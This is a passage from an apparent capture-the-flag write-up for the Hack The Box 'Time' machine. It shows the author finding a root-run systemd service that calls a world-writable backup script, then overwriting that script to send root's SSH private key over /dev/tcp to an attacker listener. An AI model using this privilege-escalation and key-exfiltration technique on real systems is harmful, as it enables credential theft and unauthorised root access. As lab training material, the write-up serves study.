 ```bash
pericles@time:/etc/cron.d$ cat php 
# /etc/cron.d/php@PHP_VERSION@: crontab fragment for PHP
#  This purges session files in session.save_path older than X,
#  where X is defined in seconds as the largest value of
#  session.gc_maxlifetime from all your SAPI php.ini files
#  or 24 minutes if not defined.  The script triggers only
#  when session.save_handler=files.
#
#  WARNING: The scripts tries hard to honour all relevant
#  session PHP options, but if you do something unusual
#  you have to disable this script and take care of your
#  sessions yourself.

# Look for and purge old sessions every 30 minutes
09,39 *     * * *     root   [ -x /usr/lib/php/sessionclean ] && if [ ! -d /run/systemd/system ]; then /usr/lib/php/sessionclean; fi
pericles@time:/etc/cron.d$ cat e2scrub_all 
30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r
```

I searched through all of the crons and didn't find the script.

```text
pericles@time:/etc$ grep -r timer_backup.sh * 2>/dev/null
systemd/system/web_backup.service:ExecStart=/bin/bash /usr/bin/timer_backup.sh
```

Next, I used grep to search for the name of the script in all of the files in `/etc` and got a hit in the `systemd/system/web_backup.service` file.

```text
pericles@time:/etc$ ls -la systemd/system/web_backup.service
-rw-r--r-- 1 root root 106 Oct 23 04:57 systemd/system/web_backup.service
```

This service was running as root.

```text
pericles@time:/etc$ ls -la /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Mar 16 22:25 /usr/bin/timer_backup.sh
```

I double checked the permissions on the script, and saw that it was fully owned by `pericles`, and I could both read and write it. I decided to change the script to do a backup of root's Private key.

### Getting a shell

```text
#!/bin/bash
cat /root/.ssh/id_rsa > /dev/tcp/10.10.14.159/8082 2>&1
```

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ nc -lvnp 8082 > time.key
listening on [any] 8082 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 33180

┌──(zweilos㉿kali)-[~/htb/time]
└─$ cat time.key 
cat: /root/.ssh/id_rsa: No such file or directory
```
